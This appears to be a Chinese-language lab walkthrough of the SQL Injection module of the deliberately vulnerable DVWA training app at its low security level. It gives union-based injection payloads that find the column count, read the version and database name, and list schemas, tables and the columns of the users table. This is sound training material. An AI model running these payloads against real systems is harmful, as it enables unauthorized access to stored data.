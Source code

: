 ## SQL Injection

### LOW

先把级别调到low

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/dvwa-sql-1.png)

输入 1‘ 返回错误，并且错误中显示我们多了一个单引号，尝试union注入

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1
```

输入1’ #返回正常信息

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/dvwa-sql-3.png)

下面判断字段

当输入1’ order by 2 # 时正常返回。当输入1’ order by 3 # 时返回错误，说明存在两个字段。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/dvwa-sql-4.png)

下面看接下来判断哪些字段有回显，输入-1’ union select 1,2 # 发现1，2，都有回显

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/dvwa-sql-5.png)

爆出版本和数据库名

```sql
-1' union select version(),database()# 
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/dvwa-sql-6.png)

查询所有的库

```sql
-1' union select 1,group_concat(schema_name) from information_schema.schemata#
```

查询dvwa库所有的表

```sql
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'#
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/dvwa-sql-7.png)

查询users表中字段

```sql
-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```
